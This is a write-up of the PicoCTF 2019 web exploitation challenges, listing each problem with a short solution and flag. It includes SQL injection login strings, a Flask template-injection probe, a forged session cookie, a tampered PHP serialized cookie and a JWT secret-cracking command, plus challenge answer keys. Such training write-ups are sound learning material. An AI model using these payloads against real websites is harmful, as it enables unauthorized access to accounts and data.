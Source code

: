 # PicoCTF 2019(Web Exploitation)

<small> [ Write-Up ] </small>
<hr>
<h5> insp3ct0r - 50pt </h5>
<p> Kishor Balan tipped us off that the following code may need inspection: https://2019shell1.picoctf.com/problem/52962/ (link) or http://2019shell1.picoctf.com:52962 </p>
<p> Answer : index.php(picoCTF{tru3_d3) -> my.css(t3ct1ve_0r_ju5t) -> my.js(_lucky?39dd9e36}) </p>
<strong> Flag : picoCTF{picoCTF{tru3_d3t3ct1ve_0r_ju5t_lucky?39dd9e36} </strong>
<hr>

<h5> dont-use-client-side - 100pt </h5>
<p> Can you break into this super secure portal? https://2019shell1.picoctf.com/problem/49886/ (link) or http://2019shell1.picoctf.com:49886 </p>
<p> Answer : Page Source </p>
<strong> Flag : picoCTF{no_clients_plz_e2f24} </strong>
<hr>

<h5> logon - 100pt </h5>
<p> The factory is hiding things from all of its users. Can you login as logon and find what they've been looking at? https://2019shell1.picoctf.com/problem/21895/ (link) or http://2019shell1.picoctf.com:21895 </p>
<p> Answer : Edit Cookie(admin : True) </p>
<strong> Flag : picoCTF{th3_c0nsp1r4cy_l1v3s_3294afa0} </strong>
<hr>

<h5> where are the robots - 100pt </h5>
<p> Can you find the robots? https://2019shell1.picoctf.com/problem/49824/ (link) or http://2019shell1.picoctf.com:49824 </p>
<p> Answer : /robots.txt -> 0194a.html </p>
<strong> Flag : picoCTF{ca1cu1at1ng_Mach1n3s_0194a} </strong>
<hr>

<h5> Client-side-again </h5>
<strong> - </strong>
<hr>

<h5> Open-to-admins - 200pt </h5>
<p> This secure website allows users to access the flag only if they are admin and if the time is exactly 1400. https://2019shell1.picoctf.com/problem/37878/ (link) or http://2019shell1.picoctf.com:37878 </p>
<p> Answer : Create Cookie(Admin : True / time : 1400) </p>
<strong> Flag : picoCTF{0p3n_t0_adm1n5_2e8d3883} </strong>
<hr>

<h5> picobrowser - 200pt </h5>
<p> This website can be rendered only by picobrowser, go and catch the flag! https://2019shell1.picoctf.com/problem/45071/ (link) or http://2019shell1.picoctf.com:45071 </p>
<p> Answer : User-Agent ( Chrome : User-Agent-Switcher to picobrowser ) </p>
<strong> Flag : picoCTF{p1c0_s3cr3t_ag3nt_b3785d03} </strong>
<hr>

<h5> Irish-Name-Repo 1 - 300pt </h5>
<p> There is a website running at https://2019shell1.picoctf.com/problem/37868/ (link) or http://2019shell1.picoctf.com:37868. Do you think you can log us in? Try to see if you can login! </p>
<p> Answer : SQL Injection </p>
<code> Username : admin'-- - </code><br><br>
<strong> Flag : picoCTF{s0m3_SQL_a57b0b1d} </strong>
<hr>

<h5> Irish-Name-Repo 2 - 350pt </h5>
<p> There is a website running at https://2019shell1.picoctf.com/problem/40968/ (link). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://2019shell1.picoctf.com:40968 </p>
<p> Answer : SQL Injection </p>
<code> Username : admin'-- - </code><br><br>
<strong> Flag : picoCTF{m0R3_SQL_plz_daf42601} </strong>
<hr>

<h5> Empire1 </h5>
<strong> - </strong>
<hr>

<h5> Irish-Name-Repo 3 - 400pt </h5>
<p> There is a secure website running at https://2019shell1.picoctf.com/problem/21874/ (link) or http://2019shell1.picoctf.com:21874. Try to see if you can login as admin! </p>
<p> Answer : SQL Injection & Replace String </p>
<code> Password : admin' be '1' = '1 </code><br><br>
<strong> Flag : picoCTF{3v3n_m0r3_SQL_d78e3333} </strong>
<hr>

<h5> JaWT Scratchpad - 400pt </h5>
<p> Check the admin scratchpad! https://2019shell1.picoctf.com/problem/47301/ or http://2019shell1.picoctf.com:47301 </p>
<p> Answer : John the ripper & JWT Secret key Cracking </p>
<code> Encrypt : eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiZGFzZCJ9.aHRhzUYZEKRV-AQUPUPSNM01yHECnFZQUQKo-kmoPHU </code><br><br>
<code> Decrypt : {"typ": "JWT", "alg": "HS256"} , {"user": "dasd"} </code><br><br>
<code> John the ripper : ./john --wordlist=rockyou.txt secretjwt.txt </code><br><br>
<strong> Secret key : ilovepico , to login "admin" </strong><br><br>
<strong> Flag : picoCTF{jawt_was_just_what_you_thought_be9ef99e529597da0f3543893357908b} </strong>
<hr>

<h5> Java Script Kiddie - 400pt </h5>
<strong> - </strong>
<hr>

<h5> Empire2 - 450pt </h5>
<p> Well done, Agent 513! Our sources say Evil Empire Co is passing secrets around when you log in: https://2019shell1.picoctf.com/problem/8675/ (link), can you help us find it? or http://2019shell1.picoctf.com:8675 </p>
<p> Answer : Python Flask Injection </p>
<code> Stage1 : Add Card {{1+1}} </code><br><br>
<code> Stage2 : {{config.items()}} </code><br><br>
<code> Secret_Key : picoCTF{your_flag_is_in_another_castle12345678} </code><br><br>
<code> Session : .eJwlz0tOQzEMheG9ZNyBnafdKRIrYB7Fjg1VgaLc2wGquneuxAK-X-c8Qvdl20c47-tup9AvM5xDLdySOWpuEIkLukphBajaPEaICaPUyhaBUDIyDbBqouxcyBlY0jDJPKXNicgjQjGviYVymtk4SpM4myPY1GTZkg_KiLXYIAqnoNvyvt-u9n3scRmQyVsphWbWMhNkhgYIkhypoB6FDO1wc6xr30yX7Qf8uejt5e31cdm3PvqX9d_bfXX_HO_Es6pRfB7mvtn6P57C8w_qWFCj.XaFCFQ.nc6Bsrf2cqlWzr50eR9pGf5p4_0 </code><br><br>
<p> <a href="empire2.py" target="_blank"> Empire2 Exploit.py </a> </p>
<strong> Flag : picoCTF{its_a_me_your_flag89d6ce82} </strong>
<hr>

<h5> Java Script Kiddie2 - 450pt </h5>
<strong> - </strong>
<hr>

<h5> cereal hacker 1 - 450pt </h5>
<p> Login as admin. https://2019shell1.picoctf.com/problem/32256/ or http://2019shell1.picoctf.com:32256 </p>
<p> Answer : PHP Seralize Vulnerability </p>
<code> Login to guest/guest </code><br><br>
<code> Cookie(user-info) : TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiZ3Vlc3QiO3M6ODoicGFzc3dvcmQiO3M6NToiZ3Vlc3QiO30%253D </code><br><br>
<code> Decode(Base64) : O:11:"permissions":2:{s:8:"username";s:5:"guest";s:8:"password";s:5:"guest";} </code><br><br>
<code> Payload : O:11:"permissions":2:{s:8:"username";s:5:"admin";s:8:"password";s:11:"' or '1'='1";} </code><br><br>
<code> Encode(Base64) : TzoxMToicGVybWlzc2lvbnMiOjI6e3M6ODoidXNlcm5hbWUiO3M6NToiYWRtaW4iO3M6ODoicGFzc3dvcmQiO3M6MTE6Iicgb3IgJzEnPScxIjt9 </code><br><br>
<code> http://2019shell1.picoctf.com:32256/index.php?file=admin </code><br><br>
<strong> Flag : picoCTF{2eb6a9439bfa7cb1fc489b237de59dbf} </strong>
<hr>

<h5> Empire3 - 500pt </h5>
<strong> - </strong>
<hr>

<h5> cereal hacker 2 - 500pt </h5>
<strong> - </strong>
<hr>